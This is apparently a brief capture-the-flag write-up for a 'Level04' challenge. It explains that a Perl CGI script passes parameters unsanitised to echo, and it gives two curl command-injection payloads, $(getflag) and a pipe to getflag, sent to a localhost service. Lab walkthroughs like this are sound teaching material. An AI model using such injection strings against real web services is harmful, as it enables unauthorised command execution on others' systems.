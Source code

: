 # Level04

The `level04.pl` script executes the `echo` command with the CGI parameters without sanitizing them, we'll input our exploit inside them to get the flag.
>`curl 'http://localhost:4747/?x=$(getflag)'`
or
>`curl http://localhost:4747/?x="x|getflag"`
